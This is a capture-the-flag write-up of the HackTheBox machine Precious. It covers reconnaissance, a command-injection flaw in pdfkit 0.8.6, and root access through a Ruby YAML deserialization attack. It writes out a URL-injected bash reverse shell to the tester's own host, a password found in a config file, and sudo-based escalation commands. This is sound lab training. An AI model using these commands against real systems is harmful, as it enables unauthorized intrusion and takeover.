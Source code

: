 # Precious.HTB-Write-Up
Write up report for the HackTheBox machine Precious.

- Initiated a service/network scan on the given HTB box with Nmap. `nmap -sV -sC 10.129.230.167`

![image](https://user-images.githubusercontent.com/61332852/226741282-9a311d20-c0e4-441b-a3f9-bcb0d5dbfee9.png)


- Nmap shows that a HTTP (80) Port was open and an SSH(22) port as well. I first checked to see if there was any exploits pertaining to the services of the HTTP server that was hosting the website and as well as the SSH service running. I used the command `searchsploit` and as well searched online to double check that the results searchsploit was returning was accurate.  

![image](https://user-images.githubusercontent.com/61332852/226740976-4e384403-8a3c-449f-8d98-7ab3502cd02a.png)

- After seeing there was no obvious exploits to take advantage of the next step was browsing the website running. First, I added the IP to /etc/hosts file. ` sudo nano /etc/hosts`

![image](https://user-images.githubusercontent.com/61332852/226740953-33301fed-5077-4204-aff5-9fbfd3a83eae.png)

- The website consisted of an input box that took a URL as input and the website would output that URL as a PDF File. I began running `gobuster` to see if there was anything other than what was given on the home page but returned no results of any other directories on the web server.  

![image](https://user-images.githubusercontent.com/61332852/226740925-41ed2196-dbb3-4d3b-a063-233ef46a8e13.png)

- After messing with the input box, I opened `BurpSuite` to see what the application was doing when inputting a URL. After inputting a couple different random websites, the application was returning nothing but a `Cannot load remote URL` message. Thus, I began to start my own python webserver on my localhost. `python3 -m http.server 80` 

![image](https://user-images.githubusercontent.com/61332852/226740896-3202f3d1-b47a-4f9e-8117-0f0c217e4f1e.png)


- After inputting the local python server that I had started it returned the contents within the file directory of my local http server. 

![image](https://user-images.githubusercontent.com/61332852/226740853-a1c57683-8fb2-483e-8bca-a3e264a86980.png)


- I used `exiftool` to see if there was any information I can get out of behind the PDF file that was downloaded from the website. Which gave us the software that was converting the URL to PDF. 

![image](https://user-images.githubusercontent.com/61332852/226740809-c954f88b-2ff4-4ebf-8e44-76b046e60c3d.png)


- I used the `searchsploit` command again here to see if there was anything it would find for `pdfkit v0.8.6` which was the software that running. It returned nothing as well so I went to google search to see if there were any vulnerabilities with the software running. I then found that it was vulnerable to `command injection` a type of injection vulnerability.    

![image](https://user-images.githubusercontent.com/61332852/226740759-38fc8f1e-892f-49a6-96ad-04a76634b2d9.png)

![image](https://user-images.githubusercontent.com/61332852/226740727-bff72795-dd8c-4bd1-bff6-dcc95c7f39c9.png)


- Reading more of the vulnerability and what we can start to do to exploit it this is what I found. `An application could be vulnerable if it tries to render a URL that contains query string parameters with user input`. After using this information, we can modify the URL to take a command as input to see if the application will run the command.  

![image](https://user-images.githubusercontent.com/61332852/226740697-2984f0f2-9f60-4f85-84b6-c1b6e17ba5a2.png)


- After grabbing a reverse shell command, I inserted it as a string within the URL ``http://10.10.14.66:8910/?name=#{'%20`bash -c 'exec bash -I &>/dev/tcp/10.10.14.66/4444 <&1'`'}``. Thus, getting me in as the user `Ruby` within the webserver.  

![image](https://user-images.githubusercontent.com/61332852/226740672-1a0d640a-d265-405c-9ac4-222767bf2c83.png)


- Going through all the files and directories that were given I first went to the users home folder to see if the user flag was there but didn’t consist of anything at first. I then used `ls -la`. I found something I don’t see usually which was a directory called `.bundle` which I then found a config file consisting of another user’s (`henry`) password.  

![image](https://user-images.githubusercontent.com/61332852/226740627-a73b6eb5-1b58-4f75-bd75-8007c9b786a7.png)


- I began to login as the user `henry` with the given password. Successfully getting us in. I first checked Henrys home directory to check for any flags shown there. Then giving us our first flag.  

![image](https://user-images.githubusercontent.com/61332852/226740558-376fd648-f49f-4b4e-9178-3101bf0f6624.png)


- To start privilege escalation towards getting the root flag I first checked what permissions Henry had as root on the machine.  

![image](https://user-images.githubusercontent.com/61332852/226740520-89c38d0b-3576-4309-8ad1-8cc8f64ed2c7.png)


- After checking the file, I then researched if there were any vulnerabilities with the Yaml file that was given. Then later finding that the Yaml file was vulnerable to a `Yaml Deserialization Attack` allowing us to run arbitrary code within the yaml file. We can now go look for an exploit to run in the dependency file to execute. After looking for the Ruby Yaml Exploit code we found the code to run from a GitHub Host. We then created a file within our home folder `touch dependency.yml` to paste the following code into. 

![image](https://user-images.githubusercontent.com/61332852/226740486-7756d9bd-6784-4f46-8d05-637d97f856dc.png)


- After running `sudo /usr/bin/ruby /opt/update_dependencies.rb` we can now run `/bin/bash -p` to see if we spawn as the root user. Which is successful.

![image](https://user-images.githubusercontent.com/61332852/226740410-daf082a6-98f7-4105-9f1a-395e1e9791b1.png)


- After going into roots home folder we find the root flag for the machine.

![image](https://user-images.githubusercontent.com/61332852/226740263-29e5447a-2cfb-4340-89f5-185a30987b89.png)
 
